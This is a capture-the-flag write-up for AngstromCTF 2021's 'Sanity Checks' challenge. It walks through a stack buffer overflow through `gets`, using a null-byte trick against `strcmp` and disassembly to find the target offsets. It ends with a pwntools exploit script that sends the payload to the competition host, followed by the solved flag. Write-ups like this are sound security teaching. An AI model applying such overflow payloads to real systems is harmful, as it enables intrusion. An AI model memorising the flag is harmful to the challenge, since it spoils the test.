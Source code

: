 # AngstromCTF2021 Sanity Checks
Looking at the sourcecode we see that the application uses `gets`. We therefore know that we can use a bufferoverflow attack.

We see that `strcmp` checks the input for the string `password123`. We can mitigate this but injecting `password123` and then a null byte, because the `strcmp` will stop comparing.

Disassembling the application we see that:
```
# 327: int main (int argc, char **argv, char **envp);
# ; var char *format @ rbp-0xe0
# ; var char *s1 @ rbp-0x60
# ; var file*stream @ rbp-0x20
# ; var uint32_t var_14h @ rbp-0x14
# ; var uint32_t var_10h @ rbp-0x10
# ; var uint32_t var_ch @ rbp-0xc
# ; var uint32_t var_8h @ rbp-0x8
# ; var uint32_t var_4h @ rbp-0x4
# 0x00401235      cmp     dword [var_4h], 0x32
# 0x00401239      jne     0x4012c1
# 0x0040123f      cmp     dword [var_8h], 0x37
# 0x00401243      jne     0x4012c1
# 0x00401245      cmp     dword [var_ch], 0xf5
# 0x0040124c      jne     0x4012c1
# 0x0040124e      cmp     dword [var_10h], 0x3d
# 0x00401252      jne     0x4012c1
# 0x00401254      cmp     dword [var_14h], 0x11
```
This we only need to add these values at their respective offsets to pass the sanity checks.

Coding it all up we get:
```
from pwn import *
password = b'password123\x00'
padding = b'A'*64
sanity_checks = b'\x11\x00\x00\x00'\
                +b'\x3d\x00\x00\x00'\
                +b'\xf5\x00\x00\x00'\
                +b'\x37\x00\x00\x00'\
                +b'\x32\x00\x00\x00'
payload = password+padding+sanity_checks

conn = remote('shell.actf.co', 21303)
conn.sendline(payload)
response = conn.recvline()
print(response)
response = conn.recvline()
print(response)
```
This returns the flag:  `actf{if_you_aint_bout_flags_then_i_dont_mess_with_yall}`

